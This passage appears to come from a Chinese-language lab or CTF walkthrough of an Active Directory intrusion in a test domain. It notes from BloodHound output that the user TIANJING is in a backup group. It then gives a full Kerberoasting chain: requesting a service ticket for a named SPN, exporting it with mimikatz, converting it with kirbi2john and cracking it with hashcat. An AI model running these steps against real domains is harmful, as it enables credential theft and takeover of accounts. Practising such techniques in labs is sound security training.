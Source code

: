 - BloodHound.zip：选择分析高价值目标，发现 TIANJING 这个域用户在备份组里

以先利用 Kerberoasting 拿下 TIANJING 用户 首先请求 WWW/xr-0923.xiaorang.lab/IIS 这个 SPN 的 ST

```bash
Import-Module .\Invoke-Kerberoast.ps1
# 用 SharpHound 收集到的 SPNName
$SPNName = 'WWW/xr-0923.xiaorang.lab/IIS'
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName


# 此时用klist就能看到缓存了SPN的ST：
klist
# 用mimikatz导出请求的ST：
.\mimikatz.exe "privilege::debug" "kerberos::list /export" "exit" > 1.txt
# 生成 1-40a1000-xr-0923$@www.-xr-09.kirbi 文件, 方便起见重命名为1.kirbi了,接着把kirbi票据转换一下
python /usr/share/john/kirbi2john.py /tmp/1.kirbi > output.txt
hashcat -m 13100 output.txt /usr/share/wordlists/rockyou.txt --force
```
